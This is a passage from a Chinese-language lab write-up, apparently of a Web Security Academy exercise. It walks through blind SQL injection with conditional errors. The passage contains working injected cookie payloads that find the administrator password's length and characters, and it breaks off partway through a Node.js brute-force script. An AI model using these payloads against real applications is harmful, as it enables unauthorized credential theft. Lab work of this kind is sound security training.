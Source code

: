 接著用以下 SQL 語法測試 password 的長度

- 如果 password 的長度 `> 10`，就爆炸
- 如果 password 的長度 `<= 10`，就正常

```sql
jP7Ryk30JRp4JvwD' AND (SELECT CASE WHEN (LENGTH(password) > 10) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username = 'administrator') = 'a

jP7Ryk30JRp4JvwD' AND (
  SELECT
    CASE
      WHEN (LENGTH(password) > 10)
      THEN TO_CHAR(1/0)
      ELSE 'a'
    END
  FROM users
  WHERE username = 'administrator'
) = 'a
```

最終測出 password 長度 = 20

```sql
jP7Ryk30JRp4JvwD' AND (SELECT CASE WHEN (LENGTH(password) = 20) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username = 'administrator') = 'a
```

再用以下 SQL 語法爆破 password 的每個字元，可以使用二分法快速鎖定目標字元

- 如果 password 第一個字元 `> 'm'`，就爆炸
- 如果 password 第一個字元 `<= 'm'`，就正常

```sql
jP7Ryk30JRp4JvwD' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1) > 'm') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username = 'administrator') = 'a

jP7Ryk30JRp4JvwD' AND (
  SELECT
    CASE
      WHEN (SUBSTR(password, 1, 1) > 'm')
      THEN TO_CHAR(1/0)
      ELSE 'a'
    END
  FROM users
  WHERE username = 'administrator'
) = 'a
```

但由於 20 碼實在太長，加上這是 httpOnly 的 cookie，沒辦法透過瀏覽器的 js 寫腳本爆破，所以我寫了一個陽春的 NodeJS 腳本來爆破

```ts
async function Blind_SQL_injection_with_conditional_errors() {
  const trackingId = "YUw5DjjA1NCBljlO";
  const session = "V6YewNgxfiwzhe7iiBEvX9APoGifBlir";
  const url =
    "https://0ad700fd041d3040808f0d46009c0089.web-security-academy.net/";
  const passwordLength = 20;
  const letters = Array(26)
    .fill(0)
    .map((_, i) => String.fromCharCode(97 + i));
  const numbers = Array(10)
    .fill(0)
    .map((_, i) => `${i}`);
  const passwordChars = letters.concat(numbers);
  const password: string[] = [];
  for (let i = 0; i < passwordLength; i++) {
    for (const passwordChar of passwordChars) {
      console.log({ i, passwordChar });
```